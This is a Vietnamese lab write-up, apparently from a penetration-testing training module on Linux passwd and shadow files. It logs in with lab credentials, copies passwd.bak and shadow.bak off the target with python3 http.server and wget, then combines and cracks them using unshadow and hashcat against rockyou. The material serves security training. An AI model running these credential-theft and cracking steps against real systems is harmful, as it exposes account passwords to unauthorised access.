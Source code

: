 <h1>Passwd, Shadow & Opasswd</h1>

![image](https://github.com/user-attachments/assets/8f9c6ec4-e133-4895-a290-2cd4f6d8a8b2)

![image](https://github.com/user-attachments/assets/0bb0310a-e568-4853-b1f1-416cb5420228)

TIếp nối từ bài Credential Hunting in Linux thì ta có kira:L0vey0u1! và ssh vào:

![image](https://github.com/user-attachments/assets/9d13fb16-8783-47f8-b1f0-c7b31707e774)

Sau khi lang thang 1 lúc thì không tìm thấy gì hữu ích trong kira:

![image](https://github.com/user-attachments/assets/2df69558-c53a-4bb1-bdfb-2566f0b20ce3)

Tôi chuyển sang user will:TUqr7QfLTLhruhVbCP từ bài trước để ssh vào và tiếp tục mày mò:

![image](https://github.com/user-attachments/assets/0054206b-b218-4ec0-ac40-d1664f5d9848)

Và tôi thấy trong .backups/ có hẳn passwd.bak và shadow.bak luôn:

![image](https://github.com/user-attachments/assets/b3dcd136-492a-4c8f-b762-b61d6981a8f0)

Dùng `python3 -m http.server 8888` bật lên để lấy .backups/ về máy thôi:

![image](https://github.com/user-attachments/assets/dc0b38e7-ac9b-4998-bc08-386c3765b47b)

`wget -r http://10.129.198.77:8888/.backups` để lấy folder .backups/ :

![image](https://github.com/user-attachments/assets/c951ca0c-1867-46ed-8b9f-0cf9113e9bef)

Và bắt đầu brute force thôi ` hashcat -m 1800 -a 0 ./unshadowed.hashes ../../rockyou.txt -o ./unshadowed.cracked`, nhớ dùng `unshadow ./passwd.bak ./shadow.bak > ./unshadowed.hashes` để kết hợp 2 file lại:

![image](https://github.com/user-attachments/assets/6404eedd-7a9a-4b55-a364-1b4d483c3143)

Mới được 6.81% sau 15p, lâu điênn

![image](https://github.com/user-attachments/assets/1708f769-1654-4cdf-b3c9-0a68dcf5572d)
